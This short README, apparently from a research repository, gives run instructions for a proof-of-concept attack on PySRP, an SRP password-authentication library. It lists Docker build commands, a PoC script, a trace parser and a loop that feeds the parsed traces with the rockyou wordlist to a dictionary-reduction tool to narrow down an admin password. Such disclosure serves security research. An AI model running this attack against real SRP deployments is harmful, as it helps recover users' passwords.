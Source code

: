# Proof of Concept attack on PySRP

Build and run container :
```
docker build --rm -t parasite_pysrp .
docker run -it parasite_pysrp
```

Run PoC :
```
./poc.sh
trace_parser.py traces_admin_password_0102030405060708/* > infos_admin_password_0102030405060708.txt
for info in $(cat infos_admin_password_0102030405060708.txt | grep -v "Error");
do
    dict_reducer /usr/share/dict/rockyou.txt $info
done
```